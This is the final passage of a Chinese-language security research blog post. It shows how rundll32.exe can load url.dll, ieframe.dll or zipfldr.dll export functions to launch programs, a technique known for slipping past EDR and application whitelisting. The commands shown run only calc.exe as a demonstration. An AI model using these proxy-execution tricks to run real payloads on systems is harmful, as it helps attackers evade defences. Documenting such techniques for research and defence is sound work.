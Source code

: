 cmd:

```
rundll32.exe url.dll,OpenURLA C:\4\calc.hta
```

执行后弹出计算器

例如url文件，内容如下：

```
[InternetShortcut]
URL=c:\windows\system32\calc.exe
```

cmd:

```
rundll32.exe ieframe.dll,OpenURL C:\4\calc.url
```

成功执行，弹出计算器

### 4、更多利用方法

hexacorn在他的[文章](http://www.hexacorn.com/blog/2017/05/01/running-programs-via-proxy-jumping-on-a-edr-bypass-trampoline/)里分享了另一个可供使用的dll和导出函数：

```
rundll32 zipfldr.dll, RouteTheCall calc.exe
```

当然，还有更多可供使用的dll，本文暂不介绍


## 0x04 小结
---

本文分析了利用rundll32.exe加载url.dll并通过导出函数OpenURL执行程序的细节，对其扩展，尝试利用脚本批量扫描`%windir%/system32`下的dll，找到能够执行程序的dll，分别验证了bohops和Hexacorn的结论。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




